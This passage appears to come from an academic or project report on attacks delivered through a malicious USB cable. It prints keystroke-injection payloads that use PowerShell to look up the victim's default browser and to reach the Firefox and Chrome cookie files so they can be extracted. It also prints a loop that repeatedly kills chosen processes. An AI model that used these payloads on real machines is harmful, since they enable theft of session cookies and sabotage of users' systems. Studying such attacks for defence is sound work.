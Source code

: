 A client's default browser can be extracted via Powershell using only one line:
\begin{lstlisting}[caption={Exceprt: Find a target's default browser}, captionpos=b]
STRINGLN Get-ItemProperty -Path 'HKCU: Software\Microsoft\Windows\Shell\Associations\UrlAssociations\http\UserChoice' | Select-Object -ExpandProperty ProgId
\end{lstlisting}

After that information is sent back to the attacker, they can connect to the cable and remotely trigger the appropriate attack. For example, if the victim's default browser is Firefox, they could start a terminal, navigate to the default directory for Firefox cookies and extract that file.

\begin{lstlisting}[caption={move into the directory for Firefox cookies}, captionpos=b]
STRINGLN cd "C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\umva4gfp.default-release\cookies.sqlite"
\end{lstlisting}

The same approach can be used for chrome, the difference is in the file path.

\begin{lstlisting}[caption={move into the directory for Chrome cookies}, captionpos=b]
STRINGLN cd "C:\Users\maaik\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
\end{lstlisting}

\subsubsection{Iteratively End Processes}

Finding and ending processes on Windows can be done with Powershell and without admin privileges. The payload first defines the black- or whitelist, depending on the mode of the attack, then gets a list of all running processes. Next, it will either end all running processes that are also in the whitelist, or it will end every running process that is not in the blacklist. \\
This is an excerpt of the whitelist mode;

\begin{lstlisting}[caption={Exceprt: a Powershell looop that ends a running process if it is contained in the whitelist}, captionpos=b]
STRINGLN $criticalProcessesWhitelist = @( "firefox" , "ROCCAT_Swarm_Monitor", "Notepad" )
DELAY 5
STRINGLN while("true"){
DELAY 5
STRINGLN $runningProcesses = Get-Process | Select-Object -ExpandProperty Name | select -Unique
DELAY 5
STRINGLN foreach ($process in $runningProcesses) {
DELAY 5
STRINGLN if ($criticalProcessesWhitelist -contains $process) {
DELAY 5
STRINGLN Stop-Process -Name $process
DELAY 5
STRINGLN Write-Output "process $process deleted"
DELAY 5
STRINGLN }
DELAY 5
STRINGLN }
DELAY 5
STRINGLN Start-Sleep -Seconds 1.5
DELAY 5
STRINGLN }
\end{lstlisting}

